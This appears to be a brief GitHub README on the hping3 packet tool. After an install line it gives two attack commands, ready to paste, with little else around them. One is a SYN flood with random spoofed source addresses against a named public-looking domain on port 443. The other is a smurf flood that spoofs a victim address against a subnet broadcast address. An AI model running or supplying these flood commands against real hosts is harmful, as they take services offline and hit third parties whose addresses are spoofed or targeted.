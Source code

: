 # hping3
> [!NOTE]
>hping3 is a command-line utility for crafting and sending custom TCP/IP packets. It is a versatile tool that allows you to perform various tasks, such as network scanning, fingerprinting, and testing network security.

```
sudo apt install hping3
```
>SYN-FLOOD attack

```
hping3 --count 15000 --data 120 --syn --win 64 -p 443 --flood --rand-source www.ewubdserver.com
```
>Dos smurf attack

```
sudo hping3 --icmp --count 50000 --spoof 192.168.56.5 192.168.56.255 --flood
```
